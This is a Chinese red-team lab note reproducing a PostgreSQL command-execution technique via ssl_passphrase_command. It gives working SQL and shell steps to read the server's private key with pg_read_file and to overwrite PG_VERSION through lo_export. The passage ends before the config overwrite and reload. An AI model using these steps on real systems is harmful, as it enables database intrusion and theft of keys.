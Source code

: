 > 方法来自于 https://pulsesecurity.co.nz/articles/postgres-sqli 这篇文章的场景

**描述**

当配置文件中配置了 ssl_passphrase_command ，那么该配置在需要获取用于解密SSL文件密码时会调用该配置的命令。

通过上传 pem，key 到目标服务器上，读取配置文件内容，修改配置文件中的ssl配置改为我们要执行的命令，通过lo_export覆盖配置文件，最后通过 pg_reload_conf 重载配置文件时将执行命令

**利用条件**
- 需要知道 PG_VERSION 文件的位置 (不是 PG_VERSION 文件也行,pgsql限制私钥文件权限必须是0600才能够加载，pgsql目录下的所有0600权限的文件都是可以的,但覆盖后没啥影响的就 PG_VERSION 了)

**复现**

这里以靶机上已经存在的2个密钥文件为例
```
/etc/ssl/certs/ssl-cert-snakeoil.pem
/etc/ssl/private/ssl-cert-snakeoil.key
```

通过文件读取获取私钥

```sql
select pg_read_file('/etc/ssl/private/ssl-cert-snakeoil.key');
```

对私钥文件加密
```bash
# 密码为 12345678
openssl rsa -aes256 -in ssl-cert-snakeoil.key -out private_passphrase.key

# 输出为 base64 格式
cat private_passphrase.key | base64 -w 0 > base.txt
```

上传 private_passphrase.key 到目标服务器上

由于 pgsql 限制私钥文件权限必须是 0600 才能够加载，这里搜索 pgsql 目录下的所有 0600 权限的文件,发现 PG_VERSION 文件符合条件，而且覆盖也没有太大影响

PG_VERSION 与 config_file 文件同目录，上传私钥文件覆盖 PG_VERSION，可绕过权限问题。
```sql
-- 将 private_passphrase.key 覆盖 PG_VERSION 文件
select lo_from_bytea(10004,decode('base64的内容,这里略','base64'));
select lo_export(10004,'/var/lib/postgresql/data/PG_VERSION');
SELECT lo_unlink(10004);
```

在靶机中查看验证是否写入成功

![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/PostgreSQL/49.png)
